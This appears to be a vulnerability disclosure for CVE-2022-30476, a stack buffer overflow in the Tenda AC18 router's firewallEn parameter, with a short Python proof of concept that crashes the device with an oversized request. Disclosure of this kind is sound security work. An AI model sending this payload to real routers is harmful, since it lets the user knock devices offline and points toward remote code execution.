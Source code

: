 # Tenda Router AC18 Vulnerability

This vulnerability lies in the `/goform/SetFirewallCfg` page which influences the lastest version of Tenda Router AC18. (The latest version is [AC18_V15.03.05.19(6318)](https://www.tenda.com.cn/download/detail-2683.html))

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `formSetFirewallCfg`.

In function `formSetFirewallCfg` it reads user provided parameter `firewallEn` into `src`, and this variable is passed into function `strcpy` without any length check, which may overflow the stack-based buffer `dest`.

![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/SetFirewallCfg`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/SetFirewallCfg?"
url += "firewallEn=" + "s" * 0x500

response = requests.get(url)
```

## Timeline

* 2022-05-07: Report to CVE & CNVD;
* 2022-05-26: CVE ID assigned (CVE-2022-30476)

## Acknowledge

Credit to [@peanuts](https://github.com/peanuts62) and [@cylin](https://github.com/lcyfrank) from IIE, CAS.
